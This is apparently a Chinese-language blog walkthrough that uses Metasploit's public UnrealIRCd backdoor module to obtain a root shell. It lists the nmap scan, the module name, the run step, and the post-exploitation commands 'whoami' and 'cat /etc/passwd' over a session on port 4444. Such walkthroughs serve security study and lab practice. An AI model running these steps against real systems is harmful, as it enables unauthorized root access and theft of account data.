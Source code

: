 ```yaml
---
title: metasploit溢出UnrealIRCd后门漏洞
date: 2021-12-21 12:23:58
tags: 
    - metasploit
    - unrealircd
    - 后门
    - 漏洞
---
```


## metasploit溢出UnrealIRCd后门漏洞

### 目的：利用UnrealIRCd后门漏洞，获取目标主机的root权限

### 原理：某些站点的UnrealIRCd，在DEBUG3_DOLOG_SYSTEM宏中包含外部引入的恶意代码，远程攻击者能够执行任意代码。

### 过程：

利用nmap扫描主机，确定`6667`端口开放，对应服务为`unreal ircd`

![1](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/2.PNG)

终端输入msfconsole，进入msf后输入`search unreal ircd`，搜索相关工具和攻击载荷

![2](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/2.PNG)

终端输入命令`use exploit/unix/irc/unreal_ircd_3281backdoor`,启用漏洞模块

输入show options,查看需要设置的相关选项
![3](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/3.PNG)
设置目标ip

run或者exploit,开始攻击，攻击成功后，建立shell会话

![4](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/4.PNG)

终端输入whoami，查看权限root，输入cat /etc/passwd，查看系统账户

![5](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/5.PNG)

本机4444端口建立远程会话
